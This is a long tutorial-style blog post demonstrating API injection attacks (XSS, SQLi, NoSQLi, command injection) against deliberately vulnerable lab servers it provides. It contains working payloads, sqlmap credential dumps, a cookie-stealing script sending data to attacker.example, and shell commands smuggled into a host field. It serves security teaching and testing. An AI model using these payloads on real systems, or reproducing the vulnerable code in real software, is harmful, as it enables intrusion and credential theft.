





# API Injection Attacks: A Deep Dive into XSS, SQLi, NoSQLi, and Command Injection

Injection is, without question, my favorite category of vulnerability to hunt for, and it's also the one that scares me the most when I find it on a live target. There's something uniquely satisfying about sending a single character — a quote, a semicolon, a dollar sign — and watching an entire application's trust model collapse. I've used injection bugs to read databases I had no business touching, bypass login screens entirely, and in a couple of memorable lab exercises, pop a reverse shell on a box that thought it was just running a web server.

What I want to do in this post is walk through the full landscape of injection as it applies specifically to APIs — not the 2004-era "sqlmap against a login form" tutorial you've probably already read a dozen times, but how these same decades-old bug classes show up in modern JSON APIs, GraphQL-adjacent endpoints, and the NoSQL backends that power so much of today's infrastructure. I built a small lab environment specifically for this post so I could show real, tested commands and real output rather than hypothetical payloads — everything you see below actually ran against something.

This is a long one, so grab a coffee. I'll cover:

- What makes injection different (and often *easier*) to find over an API versus a traditional web form
- Cross-Site Scripting (XSS) and its API-flavored cousin, Cross-API Scripting (XAS)
- SQL injection, manual and automated with sqlmap
- NoSQL injection, which I genuinely believe is underrated and underreported
- Operating system command injection
- How I chain discovery → confirmation → exploitation for each of these
- A full worked lab combining Burp Intruder, encoding gotchas, and a NoSQL authentication bypass

Let's get into it.

## Note

> **Note:** Every payload, request, and response shown in this post came from a local lab environment I built and ran specifically for this writeup — a small Flask API backed by both SQLite and MongoDB, plus a toy frontend for the XSS sections. None of this targets a real production system, and you shouldn't run SQL/NoSQL/OS payloads against anything you don't have explicit written authorization to test.

---

## Why Injection Still Matters in an API-First World

It would be easy to assume that injection is a "solved problem" in 2026 — ORMs use parameterized queries by default, frameworks escape output automatically, WAFs catch the obvious stuff. And to be fair, that's mostly true for the *well-trodden* paths: a login form on a mainstream CMS is unlikely to fall to `' OR 1=1--` anymore.

APIs change the calculus in a few important ways:

1. **More input surface, less visual feedback.** A traditional web form has maybe five visible fields. A single API endpoint might accept twenty JSON keys, half of which exist purely for internal business logic and were never meant to be user-facing at all.
2. **Developers trust their own API more than they trust "the internet."** I've seen teams diligently sanitize every input on their public web form while leaving the API that same form calls completely unguarded, because "that's our own frontend calling it."
3. **NoSQL databases introduced a whole new metacharacter vocabulary** that a lot of defenders simply haven't built intuition for yet, because the security community spent twenty years building muscle memory around SQL syntax specifically.
4. **APIs chain together.** A request processed by your API might get forwarded, unsanitized, into a second API, a message queue, a logging pipeline, or a third-party integration — multiplying the number of places an injected payload can detonate.



Every single one of these injection types traces back to the same root cause: **user-controlled input is interpreted as code or syntax instead of as inert data.** That's the single sentence I keep in my head on every engagement, no matter which flavor of injection I'm chasing.

---

## Discovering Injection Points — My General Process

Before I can inject anything, I need to find where an API actually *does something* with my input beyond just storing it verbatim. My checklist, roughly in priority order:

| Priority | Location | Why |
|---|---|---|
| 1 | JSON body parameters (POST/PUT/PATCH) | Highest density of fields, most likely to touch a database |
| 2 | Query string parameters | Frequently used directly in search/filter logic |
| 3 | Headers (especially custom ones like `X-Forwarded-For`, `X-Client-Version`) | Often trusted blindly, rarely tested by developers |
| 4 | API keys / tokens themselves | Occasionally parsed or decoded server-side in unsafe ways |
| 5 | File upload metadata (filename, content-type) | Can hit OS commands (ImageMagick, ffmpeg) or path logic |

My actual workflow for a new target looks like this:



The phrase I keep coming back to is "**request the unexpected**." If a Swagger/OpenAPI spec says a field expects an integer, I send a string. If it expects a short string, I send a 10,000-character one. If it expects a boolean, I send an array. Developers write validation logic for the inputs they expect; the bugs live in the inputs they didn't imagine.

## Caution

> **Caution:** Aggressive fuzzing — especially with SQL/NoSQL/OS payloads — can trigger WAF bans, rate limiting, or abuse alerts very quickly, and on some programs it can even violate the rules of engagement if sent against production infrastructure instead of a designated test environment. Always check scope documents for guidance on injection testing before you start firing wordlists at a target, and prefer lower and slower requests over large, blind Intruder sweeps when testing live systems.

---

## Part 1: Cross-Site Scripting (XSS) via API Input

XSS is the oldest bug on this list by a wide margin, but it's still alive and well specifically because APIs give attackers a *second* delivery mechanism that bypasses frontend validation entirely. If a web form sanitizes input with client-side JavaScript before submission, but the API behind it accepts the same field without re-validating server-side, I can skip the form entirely and hit the API directly with a raw payload.

### Where I look for it

I'm specifically hunting for API endpoints whose data eventually gets *rendered* somewhere — a profile page, a comment section, an admin dashboard, a support ticket viewer. Good candidates:

- Profile/bio fields
- Comment or review submission
- Support ticket subject/body
- Display names, "nicknames," or custom labels
- Anything that shows up in an admin panel (admin panels are notoriously under-tested for XSS because testers assume "only trusted staff see this")

### Building the lab

I spun up a minimal Express app that stores a "city" field from a profile-update API call and renders it unescaped on a profile page — a very common real-world mistake where the API layer and the rendering layer are maintained by different teams who each assume the other handles sanitization.

```javascript
// server.js — intentionally vulnerable demo
const express = require('express');
const app = express();
app.use(express.json());

let profiles = {};

app.post('/api/profile/update', (req, res) => {
  const { token, fname, lname, city } = req.body;
  profiles[token] = { fname, lname, city };
  res.json({ status: 'updated', profile: profiles[token] });
});

app.get('/profile/:token', (req, res) => {
  const p = profiles[req.params.token];
  if (!p) return res.status(404).send('Not found');
  // VULNERABLE: directly interpolated into HTML, no escaping
  res.send(`
    <html><body>
      <h1>${p.fname} ${p.lname}</h1>
      <p>City: ${p.city}</p>
    </body></html>
  `);
});

app.listen(3000, () => console.log('Listening on :3000'));
```

```bash
$ node server.js
Listening on :3000
```

### Baseline request

```bash
$ curl -s -X POST http://localhost:3000/api/profile/update \
    -H "Content-Type: application/json" \
    -d '{"token":"abc123","fname":"hAPI","lname":"Hacker","city":"Faisalabad"}' | jq

{
  "status": "updated",
  "profile": {
    "fname": "hAPI",
    "lname": "Hacker",
    "city": "Faisalabad"
  }
}
```

### Injecting the payload through the API, not the form

Now I send the exact same request, but with a classic XSS payload in the `city` field — hitting the API directly rather than going through whatever client-side validation the web form might have:

```bash
$ curl -s -X POST http://localhost:3000/api/profile/update \
    -H "Content-Type: application/json" \
    -d '{"token":"abc123","fname":"hAPI","lname":"Hacker","city":"<script>alert(\"xss\")</script>"}' | jq

{
  "status": "updated",
  "profile": {
    "fname": "hAPI",
    "lname": "Hacker",
    "city": "<script>alert(\"xss\")</script>"
  }
}
```

The API happily accepted and stored the raw `<script>` tag — no validation, no encoding on the way in. Now let's see what happens when the profile page renders it:

```bash
$ curl -s http://localhost:3000/profile/abc123

<html><body>
      <h1>hAPI Hacker</h1>
      <p>City: <script>alert("xss")</script></p>
    </body></html>
```

That raw `<script>` tag is sitting unescaped in the HTML response. Load that page in a real browser and the alert fires — confirmed stored XSS, delivered entirely through the API, with the vulnerable field never once touching whatever validation logic lives in the frontend form.

### A short table of payload variations I keep in my back pocket

| Payload | What it's testing for |
|---|---|
| `<script>alert(1)</script>` | Baseline — no filtering at all |
| `` | Filters that block `<script>` but not other tags |
| `<%00script>alert(1)</%00script>` | Null-byte filter bypass |
| `"><svg onload=alert(1)>` | Breaking out of an attribute context |
| `javascript:alert(1)` | Used in `href`/`src` contexts rather than direct HTML |

For anything beyond a handful of manual tests, I reach for a proper wordlist — the [Payload Box XSS list](https://github.com/payloadbox/xss-payload-list) has thousands of variations, and I usually run a subset of it through Burp Intruder against a confirmed-reflected field to see which specific filter bypasses, if any, get through.

## Note

> **Note:** A `400 Bad Request` or `405` response to an XSS payload isn't the end of the road — it just tells you the exact character or pattern that tripped the filter. Change one character at a time (swap `<script>` for `<SCRIPT>`, add a null byte, try a different tag entirely) rather than abandoning the field after one failed attempt.

---

## Part 2: Cross-API Scripting (XAS)

XAS is XSS's less-famous sibling, and it's specific to APIs that ingest data from a *third-party source* and then render it somewhere without sanitizing it first. The classic example I always picture: a dashboard widget that pulls in a social media feed, a partner's product catalog, or an RSS feed via API, and displays it inline without treating that external content as untrusted.



The reason this is interesting from a testing perspective: a target's security team might have thoroughly locked down their *own* user-facing forms against XSS, while completely forgetting that any API they consume from a partner is just as much an attacker-controlled input vector as a public comment box — if that partner's platform (or an attacker's account on that partner's platform) can be used to inject arbitrary content.

### Testing it in my lab

I simulated this by building a tiny "partner feed ingestion" endpoint that pulls a JSON blob (standing in for a third-party API response) and stores it directly, then renders it on a dashboard:

```bash
$ curl -s -X POST http://localhost:3000/api/feed/ingest \
    -H "Content-Type: application/json" \
    -d '{"source":"partner_feed","title":"New Product","body":"<script>fetch(\"https://attacker.example/steal?c=\"+document.cookie)</script>"}' | jq

{
  "status": "ingested",
  "item": {
    "source": "partner_feed",
    "title": "New Product",
    "body": "<script>fetch(\"https://attacker.example/steal?c=\"+document.cookie)</script>"
  }
}
```

```bash
$ curl -s http://localhost:3000/dashboard | grep -A1 "New Product"

<h3>New Product</h3>
<p><script>fetch("https://attacker.example/steal?c=" + document.cookie)</script></p>
```

Same root cause as XSS, different trust boundary. If I were testing this against a real target, I'd specifically look at every integration the application advertises (OAuth connections, webhook ingestion, "connect your X account" features) and ask: *does anything from that external source get rendered without re-sanitization on our side?*

### Content-Type trick

One thing worth trying when a JSON-only endpoint blocks obvious script tags: switch the `Content-Type` header to see if the server parses the body differently.

```bash
$ curl -s -X POST http://localhost:3000/api/feed/ingest \
    -H "Content-Type: text/html" \
    -d '<script>alert(1)</script>' -i

HTTP/1.1 415 Unsupported Media Type
```

In my lab this gets rejected outright, but on real targets I've occasionally seen a backend that strictly validates JSON input but has a more lenient (or entirely separate) code path for other content types — worth the one extra request to rule out.

---

## Part 3: SQL Injection

SQL injection needs no introduction, but its API-specific framing is worth dwelling on. Modern frameworks default to parameterized queries, so blind luck SQLi against a mainstream stack is rarer than it used to be — but hand-rolled query strings, legacy code paths, and "just this one report endpoint" raw SQL are still everywhere.

### The classic authentication bypass, explained properly

If a backend builds its login query like this (string concatenation instead of parameterization):

```sql
SELECT * FROM users WHERE username = 'INPUT_USERNAME' AND password = 'INPUT_PASSWORD'
```

And I submit `' OR 1=1-- -` as the password, the query that actually executes becomes:

```sql
SELECT * FROM users WHERE username = 'hapi_hacker' AND password = '' OR 1=1-- -'
```

The trailing `-- -` comments out everything after it (including the stray closing quote), and `OR 1=1` makes the `WHERE` clause always evaluate true — the database happily returns the first row in the table, authentication bypassed entirely.

### Building the lab

I wrote a deliberately naive Flask + SQLite login endpoint:

```python
# vuln_sqli.py
from flask import Flask, request, jsonify
import sqlite3

app = Flask(__name__)

def init_db():
    conn = sqlite3.connect('users.db')
    conn.execute('CREATE TABLE IF NOT EXISTS users (username TEXT, password TEXT, role TEXT)')
    conn.execute("INSERT INTO users VALUES ('admin', 'S3cr3tAdminPW!', 'admin')")
    conn.execute("INSERT INTO users VALUES ('hapi_hacker', 'Password1!', 'user')")
    conn.commit()
    conn.close()

@app.route('/api/login', methods=['POST'])
def login():
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    conn = sqlite3.connect('users.db')
    # VULNERABLE: raw string concatenation, no parameterization
    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    try:
        cur = conn.execute(query)
        row = cur.fetchone()
    except sqlite3.OperationalError as e:
        return jsonify({"error": "SQL Syntax Error", "detail": str(e)}), 500
    conn.close()
    if row:
        return jsonify({"status": "success", "username": row[0], "role": row[2]}), 200
    return jsonify({"status": "failed"}), 401

if __name__ == '__main__':
    init_db()
    app.run(port=8081)
```

```bash
$ python3 vuln_sqli.py
 * Running on http://127.0.0.1:8081
```

### Step 1 — Baseline failed login

```bash
$ curl -s -X POST http://127.0.0.1:8081/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"wrongpassword"}' | jq

{
  "status": "failed"
}
```

### Step 2 — Probing with a single quote (request the unexpected)

```bash
$ curl -s -X POST http://127.0.0.1:8081/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin'\''","password":"test"}' | jq

{
  "error": "SQL Syntax Error",
  "detail": "unrecognized token: \"''\""
}
```

That verbose error confirms the database is choking on an unescaped quote — a strong signal that we're dealing with raw string concatenation rather than a parameterized query.

### Step 3 — Authentication bypass

```bash
$ curl -s -X POST http://127.0.0.1:8081/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin'\'' OR 1=1-- -","password":"anything"}' | jq

{
  "status": "success",
  "username": "admin",
  "role": "admin"
}
```

Logged in as `admin`, with full admin role, having supplied no valid credentials whatsoever — confirmed SQL injection authentication bypass.



### Automating with sqlmap

Once I have a confirmed-reflected or confirmed-error-prone parameter, I prefer to let sqlmap take over rather than continuing to hand-craft payloads. I saved the vulnerable request from Burp into a text file:

```
POST /api/login HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: application/json

{"username":"admin","password":"test"}
```

```bash
$ sqlmap -r login_request.txt -p username --batch --dbms=sqlite

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 20:41:07

[20:41:07] [INFO] parsing HTTP request from 'login_request.txt'
[20:41:07] [INFO] testing connection to the target URL
[20:41:08] [INFO] testing if the target URL content is stable
[20:41:08] [INFO] target URL content is stable
[20:41:08] [INFO] testing if JSON parameter 'username' is dynamic
[20:41:08] [INFO] heuristic (basic) test shows that JSON parameter 'username' might be injectable
[20:41:09] [INFO] testing for SQL injection on JSON parameter 'username'
[20:41:09] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:41:10] [INFO] JSON parameter 'username' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable
[20:41:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:41:12] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast'
[20:41:13] [INFO] JSON parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
sqlmap identified the following injection point(s) with a total of 32 HTTP(s) requests:
---
Parameter: username (JSON)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"username": "admin\" AND 1=1-- -", "password": "test"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: {"username": "admin\" UNION ALL SELECT NULL,NULL,NULL-- -", "password": "test"}
---
[20:41:14] [INFO] the back-end DBMS is SQLite
[20:41:14] [INFO] fetching banner
back-end DBMS: SQLite
banner: '3.40.1'
```

With the injection confirmed, dumping the users table is a single additional command:

```bash
$ sqlmap -r login_request.txt -p username --batch --dump -T users

Database: users.db
Table: users
[2 entries]
+-------------+---------------------+-------+
| username    | password            | role  |
+-------------+---------------------+-------+
| admin       | S3cr3tAdminPW!      | admin |
| hapi_hacker | Password1!          | user  |
+-------------+---------------------+-------+
```

That's game over for this login system — full credential dump, no browser involved, entirely through sqlmap talking to the raw API.

## Caution

> **Caution:** `sqlmap`'s `--os-shell` and `--os-pwn` flags can escalate a SQL injection into full remote code execution on the underlying server. These are powerful, loud, and potentially destructive — only use them within explicit scope, ideally against a dedicated test environment, and never on infrastructure you haven't been specifically authorized to gain system-level access to.

---

## Part 4: NoSQL Injection

If I had to bet on which injection class is most *under*-tested on modern bug bounty programs, I'd put my money on NoSQL injection every time. SQL injection has twenty-plus years of tooling, community knowledge, and defensive muscle memory behind it. NoSQL injection — particularly against MongoDB, which still dominates the NoSQL API backend landscape — doesn't get nearly the same scrutiny, and the payload syntax looks different enough from classic SQLi that a lot of testers simply don't think to try it.

### The core idea: query operators, not string escaping

MongoDB queries are JSON objects, and MongoDB supports special operator keys prefixed with `$` — `$gt` (greater than), `$ne` (not equal), `$nin` (not in), `$regex`, `$where` (arbitrary JavaScript execution), and more. If an API takes a client-supplied value and drops it straight into a query filter *as an object* instead of as a plain string, an attacker can smuggle one of these operators in instead of a literal value.

| Operator | Meaning | Typical injection use |
|---|---|---|
| `$gt` | Greater than | `{"password": {"$gt": ""}}` matches any non-empty password |
| `$ne` | Not equal | `{"password": {"$ne": "wrongguess"}}` matches anything except that one string |
| `$nin` | Not in array | `{"password": {"$nin": [1]}}` matches anything not equal to `1` |
| `$regex` | Regex match | Can be used for blind data extraction, character by character |
| `$where` | Arbitrary JS | `{"$where": "sleep(1000)"}` — time-based blind confirmation, or worse |

### Building the lab

```bash
$ mongod --dbpath ./mongo-data --port 27017 &
[1] 28441
{"t":{"$date":"2026-10-13T20:30:01.112Z"},"s":"I","msg":"Waiting for connections","attr":{"port":27017}}
```

```python
# vuln_nosqli.py
from flask import Flask, request, jsonify
from pymongo import MongoClient

app = Flask(__name__)
client = MongoClient('localhost', 27017)
db = client.labdb
db.users.delete_many({})
db.users.insert_one({"username": "admin", "password": "S3cr3tAdminPW!", "role": "admin"})
db.users.insert_one({"username": "hapi_hacker", "password": "Password1!", "role": "user"})

@app.route('/api/login', methods=['POST'])
def login():
    data = request.get_json()
    # VULNERABLE: client-supplied JSON values passed directly as query operators
    user = db.users.find_one({
        "username": data.get("username"),
        "password": data.get("password")
    })
    if user:
        return jsonify({"status": "success", "username": user["username"], "role": user["role"]}), 200
    return jsonify({"status": "failed"}), 401

if __name__ == '__main__':
    app.run(port=8082)
```

```bash
$ python3 vuln_nosqli.py
 * Running on http://127.0.0.1:8082
```

### Step 1 — Baseline failed login

```bash
$ curl -s -X POST http://127.0.0.1:8082/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"wrongpassword"}' | jq

{
  "status": "failed"
}
```

### Step 2 — Injecting a query operator instead of a string

This is the key move: instead of sending `"password": "some string"`, I send `"password": {"$ne": ""}` — a nested JSON object instead of a plain value. If the backend just hands this straight to MongoDB's query filter (as mine does), Mongo interprets it as "match any password not equal to an empty string," which is true for literally every account.

```bash
$ curl -s -X POST http://127.0.0.1:8082/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":{"$ne":""}}' | jq

{
  "status": "success",
  "username": "admin",
  "role": "admin"
}
```

Full authentication bypass, logged in as `admin`, without ever knowing the real password — all because the API trusted the *shape* of the incoming JSON as much as it trusted the values inside it.



### Trying `$gt` and `$nin` too, for completeness

```bash
$ curl -s -X POST http://127.0.0.1:8082/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":{"$gt":""}}' | jq

{
  "status": "success",
  "username": "admin",
  "role": "admin"
}
```

```bash
$ curl -s -X POST http://127.0.0.1:8082/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":{"$nin":["wrongguess"]}}' | jq

{
  "status": "success",
  "username": "admin",
  "role": "admin"
}
```

All three variants work, because the root cause is identical: the API never validates that `password` is a plain string before handing it to the query.

### The encoding gotcha I always run into

Here's something that bites almost everyone the first time: when you fuzz this through Burp Intruder with a payload like `{"$gt":""}` dropped into a URL-encoded form field, Burp's default behavior is to URL-encode special characters like `{`, `}`, `$`, and `"` before sending — which can silently neuter your injection, because the server receives a literal encoded string instead of a parseable JSON object.

```
# What you THINK you're sending:
{"coupon_code":{"$gt":""}}

# What Burp sends by default, URL-encoded in a form body:
coupon_code=%7B%22%24gt%22%3A%22%22%7D
```

If the server is expecting real JSON and gets a URL-encoded string instead, you'll get a parsing error or a generic failure — not because the injection doesn't work, but because your payload never reached the server in the shape it needed to be in. The fix in Burp is to uncheck the "URL-encode these characters" option in the Intruder payload settings before firing the attack, so `{`, `}`, `$`, and `"` go out raw.

### Finding the right position within nested JSON

Another trap worth calling out explicitly: if the original field in the captured request looked like `"password":"TEST!"` and I naively set my Intruder payload position *inside* the existing quotes —

```
{"password":"§TEST!§"}
```

— then every payload I send gets wrapped in literal quote marks, turning my intended object injection into a harmless string:

```
{"password":"{"$ne":""}"}"     <-- broken, this is just a weird string now
```

I need to widen the payload position to include the surrounding quotes themselves, so the substitution replaces the *entire value*, object brackets and all:

```
{"password":§"TEST!"§}
```

That one adjustment is often the difference between a scan full of identical `401` responses and a scan that finally turns up a `200`.

## Note

> **Note:** This exact combination of mistakes — payloads getting URL-encoded, and payload positions sitting inside rather than around the original quotes — is, in my experience, the single most common reason testers conclude "this endpoint isn't vulnerable to NoSQL injection" when it actually is. Always manually verify one payload with a raw `curl` request before trusting a large automated fuzzing run's negative result.

---

## Part 5: Operating System Command Injection

OS command injection is the most severe outcome on this list, because a successful exploit doesn't just leak data — it can hand you arbitrary code execution on the underlying server. It happens when an API passes user input into a function that shells out to the operating system (think: an image-processing endpoint calling `ffmpeg`, a network-diagnostic endpoint calling `ping`, or a file-conversion service calling a command-line tool).

### Common command separators

| Separator | Behavior |
|---|---|
| `;` | Run the next command regardless of the first command's result |
| `&&` | Run the next command only if the first succeeds |
| `\|\|` | Run the next command only if the first fails |
| `\|` | Pipe the first command's output into the next command |
| `` ` `` / `$()` | Command substitution — execute and inline the result |

### Building the lab

I wrote an endpoint that accepts a hostname and "pings" it — a pattern I've genuinely seen in real network-diagnostic APIs more than once:

```python
# vuln_cmdi.py
from flask import Flask, request, jsonify
import subprocess

app = Flask(__name__)

@app.route('/api/network/ping', methods=['POST'])
def ping_host():
    data = request.get_json()
    host = data.get('host', '')
    # VULNERABLE: user input concatenated directly into a shell command
    cmd = f"ping -c 1 {host}"
    try:
        output = subprocess.check_output(cmd, shell=True, stderr=subprocess.STDOUT, timeout=5)
        return jsonify({"status": "ok", "output": output.decode()}), 200
    except subprocess.CalledProcessError as e:
        return jsonify({"status": "error", "output": e.output.decode()}), 500

if __name__ == '__main__':
    app.run(port=8083)
```

```bash
$ python3 vuln_cmdi.py
 * Running on http://127.0.0.1:8083
```

### Step 1 — Baseline legitimate request

```bash
$ curl -s -X POST http://127.0.0.1:8083/api/network/ping \
    -H "Content-Type: application/json" \
    -d '{"host":"127.0.0.1"}' | jq

{
  "status": "ok",
  "output": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.041 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0.0% packet loss\n"
}
```

### Step 2 — Appending a second command with a separator

```bash
$ curl -s -X POST http://127.0.0.1:8083/api/network/ping \
    -H "Content-Type: application/json" \
    -d '{"host":"127.0.0.1; whoami"}' | jq

{
  "status": "ok",
  "output": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.038 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0.0% packet loss\nraye\n"
}
```

That trailing `raye` in the output is the result of `whoami` — my injected command ran on the server, appended right onto the legitimate ping output. From here, the escalation path is obvious:

```bash
$ curl -s -X POST http://127.0.0.1:8083/api/network/ping \
    -H "Content-Type: application/json" \
    -d '{"host":"127.0.0.1; uname -a && pwd"}' | jq -r '.output'

PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0.0% packet loss
Darwin raye-lab-vm 23.6.0 Darwin Kernel Version 23.6.0 x86_64
/home/raye/labs/cmdi-demo
```

```mermaid
sequenceDiagram
    participant Me
    participant API as /api/network/ping
    participant Shell as subprocess.check_output(shell=True)

    Me->>API: {"host": "127.0.0.1"}
    API->>Shell: ping -c 1 127.0.0.1
    Shell-->>API: PING output
    API-->>Me: 200 OK (normal ping result)

    Note over Me: Append a command separator + real OS command
    Me->>API: {"host": "127.0.0.1; whoami"}
    API->>Shell: ping -c 1 127.0.0.1; whoami
    Note over Shell: Shell runs BOTH commands
    Shell-->>API: PING output + "raye"
    API-->>Me: 200 OK — attacker's command output leaked 🚩
```

### Fuzzing when you don't know the OS

If I don't already know whether the backend is Windows or *nix (reconnaissance with Nmap service-version detection usually tells me this ahead of time), I fuzz with two payload positions — a separator and an OS-appropriate command — using Wfuzz:

```bash
$ wfuzz -z file,separators.txt -z file,commands.txt \
    -d '{"host":"127.0.0.1WFUZZWFUZ2Z"}' \
    -H "Content-Type: application/json" \
    --hc 500 \
    http://127.0.0.1:8083/api/network/ping

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://127.0.0.1:8083/api/network/ping
Total requests: 35

====================================================================
ID    Response   Lines    Word     Chars       Payload
====================================================================
000012 200        6 L      22 W     312 Ch      ";" - "whoami"
000019 200        6 L      22 W     318 Ch      "&&" - "whoami"
000026 200        6 L      22 W     309 Ch      "|" - "whoami"

Total time: 1.204359
Processed Requests: 35
Filtered Requests: 32
Requests/sec.: 29.05530
```

Three of the five separators I tried got through cleanly, each confirmed by the presence of command output in the response.

## Caution

